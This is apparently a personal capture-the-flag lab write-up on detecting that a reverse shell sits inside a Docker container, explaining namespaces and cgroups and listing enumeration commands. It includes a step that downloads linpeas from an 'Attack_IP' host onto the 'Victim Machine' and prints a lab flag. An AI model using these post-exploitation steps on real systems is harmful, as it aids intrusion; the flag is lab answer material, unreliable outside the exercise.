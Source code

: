 Now that we have gained a shell onto the webserver, we need to perform some situational awareness to figure out where we are. We know from looking through some files when we exploited LFI that this may be a container. We can run some further enumeration and information gathering to identify whether that is true or not and anyway misconfigurations that might allow us to escape the container.  

From the Docker documentation, "A container is a standard unit of software that packages up code and all its dependencies, so the application runs quickly and reliably from one computing environment to another. A Docker container image is a lightweight, standalone, executable package of software that includes everything needed to run an application: code, runtime, system tools, system libraries, and settings."  

![](https://i.imgur.com/2oFwU49.png)  

Containers have networking capabilities and their own file storage. They achieve this by using three components of the Linux kernel:

- Namespaces
- Cgroups
- OverlayFS

But we're only going to be interested in namespaces here; after all, they lay at the heart of it. Namespaces essentially segregate system resources such as processes, files, and memory away from other namespaces.  

Every process running on Linux will be assigned a PID and a namespace.

Namespaces are how containerization is achieved! Processes can only "see" the process that is in the same namespace - no conflicts in theory. Take Docker; for example, every new container will be running as a new namespace, although the container may be running multiple applications (and, in turn, processes).  

Let's prove the concept of containerization by comparing the number of processes there are in a Docker container that is running a web server versus the host operating system at the time.  

We can look for various indicators that have been placed into a container. Containers, due to their isolated nature, will often have very few processes running in comparison to something such as a virtual machine. We can simply use `ps aux` to print the running processes. Note in the screenshot below that there are very few processes running?

Command used: `ps aux` 

![](https://i.imgur.com/NkdQRCE.png)  

Containers allow environment variables to be provided from the host operating system by the use of a `.dockerenv` file. This file is located in the "/" directory and would exist on a container - even if no environment variables were provided.

Command used: `cd / && ls -lah`

![](https://i.imgur.com/YbH0rGm.png)  

Cgroups are used by containerization software such as LXC or Docker. Let's look for them by navigating to `/proc/1` and then catting the "cgroup" file... It is worth mentioning that the "cgroups" file contains paths including the word "docker".

![](https://i.imgur.com/LxU3w2p.png)


---

# Your job

## linpeas

- Transfer [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) to the Victim Machine. Host the file in a python webserver by doing `python3 -m http.server 80` and then download the file in the remote machine with curl `curl [http://Attack_IP/linpeas.sh](http://Attack_IP/linpeas.sh) -output <remote_location_to_save>`
- Run linpeas.

	![[Task - 15 Docker? I hardly even know her!-20240909133501872.webp]]
	![[Task - 15 Docker? I hardly even know her!-20240909133807008.webp]]

	You'll get a very important information at the beginning. It says we are inside a Docker environment. So that means we are not actually in the `.33` machine, we got the shell in a container that is running inside `.33` machine.


## Flag on L-SRV02

On the Reverse Shell go to `www-data@8a178600e3d1:/var/www$` and run:

`cat user.txt`

HOLO{175d7322f8fc53392a417ccde356c3fe}

**Next step:** [[Task 16 - Living off the LANd]]

